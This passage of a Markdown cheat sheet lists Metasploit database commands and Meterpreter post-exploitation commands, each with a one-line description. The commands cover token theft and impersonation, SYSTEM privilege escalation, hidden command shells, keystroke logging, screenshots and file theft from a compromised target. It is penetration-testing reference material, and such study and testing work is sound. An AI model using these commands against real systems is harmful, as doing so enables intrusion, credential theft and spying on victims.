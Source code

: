 | `db_connect \<name\>` | Create and connect to a database for driven attacks (example: db_connect autopwn). |
| `db_nmap` | Use Nmap and place results in a database. (Normal Nmap syntax is supported, such as –sT –v –P0.) |
| `db_destroy` | Delete the current database. |
| `db_destroy  \<user:password@host:port/database\>` | Delete database using advanced options. |
|                |                                                              |


----
## Meterpreter Commands 

| **Command**                                                     | **Description**                                                  |
| :---------------------------------------------------------- | :----------------------------------------------------------- |
| `help`                                                      | Open Meterpreter usage help.                                 |
| `run \<scriptname\>`                                        | Run Meterpreter-based scripts; for a full list check the scripts/meterpreter directory. |
| `sysinfo`                                                   | Show the system information on the compromised target.       |
| `ls`                                                        | List the files and folders on the target.                    |
| `use priv`                                                  | Load the privilege extension for extended Meterpreter libraries. |
| `ps`                                                        | Show all running processes and which accounts are associated with each process. |
| `migrate \<proc. id\>`                                      | Migrate to the specific process ID (PID is the target process ID gained from the ps command). |
| `use incognito`                                             | Load incognito functions. (Used for token stealing and impersonation on a target machine.) |
| `list_tokens -u`                                            | List available tokens on the target by user.                 |
| `list_tokens -g`                                            | List available tokens on the target by group.                |
| `impersonate_token \<DOMAIN_NAMEUSERNAME\>`               | Impersonate a token available on the target.                 |
| `steal_token \<proc. id\>`                                  | Steal the tokens available for a given process and impersonate that token. |
| `drop_token`                                                | Stop impersonating the current token.                        |
| `getsystem`                                                 | Attempt to elevate permissions to SYSTEM-level access through multiple attack vectors. |
| `shell`                                                     | Drop into an interactive shell with all available tokens.    |
| `execute -f \<cmd.exe\> -i`                                 | Execute cmd.exe and interact with it.                        |
| `execute -f \<cmd.exe\> -i -t`                              | Execute cmd.exe with all available tokens.                   |
| `execute -f \<cmd.exe\> -i -H -t`                           | Execute cmd.exe with all available tokens and make it a hidden process. |
| `rev2self`                                                  | Revert back to the original user you used to compromise the target. |
| `reg \<command\>`                                           | Interact, create, delete, query, set, and much more in the target’s registry. |
| `setdesktop \<number\>`                                     | Switch to a different screen based on who is logged in.      |
| `screenshot`                                                | Take a screenshot of the target’s screen.                    |
| `upload \<filename\>`                                       | Upload a file to the target.                                 |
| `download \<filename\>`                                     | Download a file from the target.                             |
| `keyscan_start`                                             | Start sniffing keystrokes on the remote target.              |
| `keyscan_dump`                                              | Dump the remote keys captured on the target.                 |
| `keyscan_stop`                                              | Stop sniffing keystrokes on the remote target.               |
| `getprivs`                                                  | Get as many privileges as possible on the target.            |